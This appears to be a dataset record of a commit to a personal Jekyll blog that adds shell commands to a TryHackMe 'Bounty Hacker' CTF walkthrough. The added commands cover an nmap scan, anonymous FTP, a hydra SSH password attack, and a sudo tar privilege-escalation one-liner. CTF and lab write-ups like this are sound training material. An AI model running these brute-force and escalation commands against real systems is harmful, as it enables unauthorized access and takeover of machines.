

Before and after one commit to 4p0f1s/4p0f1s.github.io, a Jekyll site: the page built from _posts/2023-01-02-bountyhacker.md, in a window 1280 px wide and 1400 px high, scrolled down 4298 px. Shown: the whole window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
jekyll commands

````diff
--- a/_posts/2023-01-02-bountyhacker.md
+++ b/_posts/2023-01-02-bountyhacker.md
@@ -16,17 +16,33 @@
 
 Let's start scaning the machine with nmap.
 
+```sh
+nmap -sSV -p- --open --min-rate 5000 <IP> -oN <outputfile.txt>
+```
+
 ![scan](/images/THM/bountyhacker/Captura.PNG)
 
 Like we can see in the scan, it returns, 3 open ports. We're going to connect to ftp.
+
+```sh
+ftp <IP>
+```
 
 ![ftp](/images/THM/bountyhacker/Captura2.PNG)
 
 We can log in with the anonymous user and If we list the files inner the directory we see 2 files, locks.txt and task.txt.
 
+```sh
+cat locks.txt
+```
+
 ![locks](/images/THM/bountyhacker/Captura3.PNG)
 
 When locks.txt is show up, we see a list. Lets going to think that is a password list.
+
+```sh
+cat task.txt
+```
 
 ![task](/images/THM/bountyhacker/Captura4.PNG)
 
@@ -37,6 +53,10 @@
 >Answer: lin
 
 With the above information, let's try to do a wordlist attack with [hydra].
+
+```sh
+hydra -l lin -P locks.txt <IP> ssh
+```
 
 ![hydra](/images/THM/bountyhacker/Captura5.PNG)
 
@@ -50,9 +70,18 @@
 
 How we got the credentials, let's connect to the machine.
 
+```sh
+ssh lin@<IP>
+```
+
 ![ssh](/images/THM/bountyhacker/Captura6.PNG)
 
 If we list the files, we can see the user.txt containing the flag.
+
+```sh
+ls
+cat user.txt
+```
 
 ![user flag](/images/THM/bountyhacker/Captura7.PNG)
 
@@ -63,10 +92,21 @@
 Now is the time to elevate our privileges so, we try with **sudo -l** to see if we can do something.
 With the information returned, we can do the elevation with tar. If we don't know how to do It, we can go to [GTFOBins].
 
+```sh
+sudo -l
+sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=<shell>
+```
+
 ![sudo](/images/THM/bountyhacker/Captura8.PNG)
 
 Now that we are root, we can go to the /root directory and see the root flag.
 And with that we finish this machine.
+
+```sh
+cd /root
+ls
+cat root.txt
+```
 
 ![root flag](/images/THM/bountyhacker/Captura9.PNG)
 
````
Also changed, not shown: _posts/2022-12-30-simplectf.md (+42 -0 lines).
